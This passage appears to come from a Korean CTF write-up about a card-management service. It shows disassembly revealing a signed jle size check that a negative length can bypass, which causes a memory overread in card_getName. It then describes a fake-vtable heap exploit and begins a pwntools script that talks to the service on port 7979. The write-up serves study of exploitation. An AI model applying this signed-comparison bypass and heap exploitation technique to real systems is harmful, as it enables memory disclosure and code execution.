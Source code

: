 ```asm
; point 2
.text:0000000000002CB5                 jle     short loc_2CBE
.text:0000000000002CB7                 mov     [rbp+name_buffer_size], 100h
.text:0000000000002CBE
.text:0000000000002CBE loc_2CBE:                               ; CODE XREF: card_setName(int,Card *)+F9↑j
.text:0000000000002CBE                 mov     rax, [rbp+var_40]
.text:0000000000002CC2                 mov     rax, [rax]
.text:0000000000002CC5                 add     rax, 38h ; '8'
.text:0000000000002CC9                 mov     r8, [rax]
.text:0000000000002CCC                 mov     ecx, [rbp+name_buffer_size]
.text:0000000000002CCF                 mov     rdx, qword ptr [rbp+name_buffer_size+4]
.text:0000000000002CD3                 mov     rax, [rbp+var_40]
.text:0000000000002CD7                 mov     esi, ecx
.text:0000000000002CD9                 mov     rdi, rax
.text:0000000000002CDC                 call    r8
```

이 취약점은 어셈으로 봤을 때 명확히 보입니다. recv 할 때는 `name_buffer_size`가 담긴 eax에서 al만 취해서 0xff 바이트가 넘지 않는 길이만큼 입력을 받습니다.

그 후 `name_buffer_size`가 0x100 이 넘으면 0x100 을 최대값으로 설정하는 것 처럼 보입니다.

하지만 어셈으로 보면 `jle` 로 비교하고 있습니다. jle는 signed 비교이기 때문에 음수값으로 설정하게 되면 0x100 보다 작으니 검사를 위회하여 음수값을 size로 설정하게 됩니다.

(unsigned 비교를 위해서는 jbe를 사용해야 합니다.)

```cpp
unsigned __int64 __fastcall card_getName(int a1, struct_card *a2)
...
  name_buffer = a2->vt->getName(a2);
  name_buffer_size = a2->vt->getNameSize(a2);
  send(a1, &name_buffer_size, 4uLL, 0);
  send(a1, name_buffer, name_buffer_size, 0);
```

`getName`에서는 `name_buffer`를 `ame_buffer_size` 만큼 출력해주기 때문에 실제 버퍼 크기를 넘어선 overread가 발생하게 됩니다.

## Exploit

malloc과 free를 적절히 이용해서 fake vtable을 구성 해주고, 필요한 gadget을 찾아 슥슥하면 플래그을 얻을 수 있습니다.
```python
from pwn import *
import sys

target = sys.argv[1]
my = sys.argv[2]

print(target, my)

def create():
  r = remote(target, 7979)
  op = 0
  r.send(p32(op))
  token = 0x1337
  r.send(p32(token))
  id = r.recv(4)
  id = u32(id)
  return id

def del_card(_id, _token):
    r = remote(target, 7979)
    op = 0xff
    r.send(p32(op))
    r.send(p32(_id))
```